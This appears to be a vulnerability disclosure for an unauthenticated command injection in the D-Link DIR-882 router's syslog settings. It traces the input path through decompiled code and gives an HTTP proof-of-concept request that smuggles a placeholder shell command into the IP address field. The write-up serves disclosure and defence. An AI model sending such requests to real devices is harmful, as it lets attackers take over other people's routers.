 # Command Injection Vulnerability in `SetSysLogSettings`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | D-Link DIR-882 Router                                        |
| Firmware Version     | DIR882A1_FW102B02                                            |
| Vulnerability Type   | **Command Injection**                                        |
| Vulnerable Component | `prog.cgi` (input handling) and `rc` (execution of `syslogd` command) |
| Data Flow            | Cross-binary propagation via NVRAM variables (`nvram_safe_set` → `nvram_safe_get`) |
| Exploit Path         | Attacker-controlled input `SetSysLogSettings/IPAddress` → stored in NVRAM (`SysLogRemote_IPAddress`) → retrieved by `rc` → injected into `sprintf("syslogd -L -R %s")` → executed by `twsystem` |
| Prerequisites        | No authentication required; attacker can inject arbitrary payloads into the syslog IP field through the web management interface. |

2. Exploitation Path

```c
// prog.cgi
int __fastcall sub_432F60(int a1)
{
  ...
  v3 = (_BYTE *)webGetVarString(a1, "SetSysLogSettings/IPAddress");
  if ( !*v3 )
    return WebsSetResponseResult(a1, 0);
  nvram_safe_set("SysLogRemote_IPAddress", v3);
  ...
}

// rc
int sub_448DCC()
{
  ...
  v1 = nvram_safe_get("SysLogRemote_Enable");
  v2 = (const char *)nvram_safe_get("SysLogRemote_IPAddress");
  if ( strcmp(v1, "1") )
    return twsystem("syslogd -L", 1);
  result = *(unsigned __int8 *)v2;
  if ( *v2 )
  {
    memset(v3, 0, 100);
    sprintf(v3, "syslogd -L -R %s", v2);
    return twsystem(v3, 1);
  ...
}
```

3. **Vulnerable Binaries:** `prog.cgi` and `rc` (with cross-binary data flow).
4. 0-Day Command Injection Exploitation Path: In `prog.cgi`, line 5 executes `v3 = (_BYTE *)webGetVarString(a1, "SetSysLogSettings/IPAddress")`. The input is subsequently stored at line 8 via `nvram_safe_set("SysLogRemote_IPAddress", v3)`. In `rc`, line 17 retrieves the stored value through `v2 = (const char *)nvram_safe_get("SysLogRemote_IPAddress")`. After string concatenation, the data is passed into line 25 `return twsystem(v3, 1)`, thereby triggering a command injection vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/prog.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Connection: close

SetSysLogSettings/IPAddress=1.2.3.4;`INJECTED_COMMAND`
&SetSysLogSettings/Enable=1
```